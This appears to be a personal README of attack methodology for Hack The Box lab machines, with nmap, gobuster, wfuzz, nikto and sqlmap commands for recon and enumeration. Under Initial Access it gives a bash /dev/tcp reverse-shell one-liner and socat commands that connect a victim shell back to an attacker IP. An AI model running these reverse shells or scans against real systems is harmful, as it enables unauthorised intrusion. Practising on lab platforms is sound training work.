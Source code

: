 # AttackMethodology
This repo will be my attack methodology for HTB attacking.  This is purely academic and should not be used for malicious purposes.

# Table of Contents
1. Prerequisites
    1. Machine Setup
    2. Hosts DNS Settings
2. Reconnaissance
    1. General Port Scanning
    2. Banner Grabbing
3. Enumeration
    1. Web Application Enumeration
4. Initial Access
    1. Upgrade Dumb Shell Fully Interactive Shell
5. Lateral Movement
6. Privilege Escalation

# Prerequisites
---
* set up attack machine

    ### Machine Setup
    ```
    export HTBIP=<ip>
    export HTB=<machine name>
    export HTBWEB=<website>                 # example: http://larry.htb/
    ```

    ### Hosts DNS Settings
    ```
    sudo vi /etc/hosts                      # This file acts like a dns resolver for us
    <ip>  <hostname.htb>
    ```

# Reconnaissance
---
* Gather information about the target system, network, or application.

    ### General Port Scanning
    ```
    $ sudo nmap -sC -sV -oA $HTB $HTBIP     # this is gonna work for most standard runs
    $ sudo nmap -sU -A $HTBIP               # this is for udp ports
    ```

    ### Banner Grabbing
    ```
    $ nc $HTBIP <port>
    ```

# Enumeration
---
* Enumerate user accounts, applications, and other relevant findings.

    ### Web Application Enumeration
    ```
    $ nmap -p 80,443 $HTBIP --script http-vuln*
    $ nmap -p 80,443 $HTBIP --script http-enum*

    $ gobuster dir -u $HTBWEB -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 40
    $ gobuster dir -u $HTBWEB -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 40
    $ gobuster dns -d mydomain.com -w /usr/share/wordlists/SecLists/Discovery/DNS/combined_subdomains.txt -t 40
    $ gobuster vhost -u box.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 64 --append-domain 

    $ wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://FUZZ.keeper.htb" 

    $ nikto -host $HTBWEB

    $ sqlmap -u $HTBWEB/login --data="username=test&password=test" --dbs
    ```

# Initial Access
---
* Exploit vulnerabilities to gain initial access to the target system.

    ### One Liner Reverse Shells
    ```
    bash -i 5<> /dev/tcp/127.0.0.1/9001 0<&5 1>&5 2>&5
    ```


    ### Upgrade Dumb Shell Fully Interactive Shell
    ```
    # method 1 Python
    $ python -c 'import pty; pty.spawn("/bin/bash")'                            # run this on victim
    $ Press Ctrl + Z to background the shell.
    $ stty raw -echo; fg

    # method 2 socat
    $ socat file:`tty`,raw,echo=0 TCP-LISTEN:4444                               # on attach machine
    $ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attack IP>:4444  # run this on victim
    ```

# Lateral Movement
---
* Move laterally within the network to explore and compromise other systems.

# Privilege Escalation
---
* Elevate privileges to gain higher-level access, such as moving from a low-privileged user to an administrator or root.
